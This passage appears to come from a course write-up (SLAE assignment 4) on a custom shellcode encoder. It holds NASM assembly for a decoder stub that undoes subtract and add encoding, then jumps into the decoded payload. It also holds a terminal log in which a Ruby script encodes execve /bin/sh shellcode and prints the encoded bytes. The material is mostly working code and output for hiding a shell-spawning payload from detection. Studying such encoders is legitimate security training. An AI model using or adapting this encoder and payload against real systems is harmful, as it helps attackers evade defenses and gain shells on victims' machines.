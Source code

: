 ~~~ nasm
  sub bl, al            ;subtracting the current value in BL by 5 and placing that value into BL
  mov byte [esi], bl    ;replacing the current byte at the memory location pointed to by ESI with the decoded byte
  inc esi               ;shifting to the next byte
  loop sub_decoder_loop ;loop 10 times

  xor ecx, ecx  ;clearing out ecx
  mov cl, dl    ;moving the length of EncodedShellcode into CL
  sub cl, 10    ;subtracting the length of EncodedShellcode in CL by 10 as we have already decoded 10 bytes
  add al, 2     ;adding 2 to AL. 7 is the addition value.

add_decoder_loop:
  xor ebx, ebx          ;clearing out ebx
  mov bl, byte [edi]    ;taking the current byte in EncodedShellcode and placing it into BL. EDI starts at +10.
  add bl, al            ;adding the current value in BL by 7 and placing that value into BL
  mov byte [edi], bl    ;replacing the current byte at the memory location pointed to by EDI with the decoded byte
  inc edi               ;shifting to the next byte
  loop add_decoder_loop ;loop until CL has been met

  jmp short EncodedShellcode ;pass execution to the decoded shellcode

encoded_shellcode:
  call decode
  EncodedShellcode: db 0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa
  EncodedShellcodeLen equ $-EncodedShellcode
~~~
The decoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/decode.nasm">here</a>.


### Encoding
~~~ bash
20:10 skawa@skawa-mbp: assignment4 $ cat encode.rb | grep x31
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
20:10 skawa@skawa-mbp: assignment4 $ ruby encode.rb
[+] C hex format:
"\xe5\x16\x86\xbe\xe7\xe7\xab\xbe\xbe\xe7\x88\xb1\xb4\x51\xf\x9a\x51\x8\x9f\x51\x9\x7a\xd7\x15\xaa";

[+] nasm hex format:
0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa

[+] Total length: 25
20:10 skawa@skawa-mbp: assignment4 $
~~~
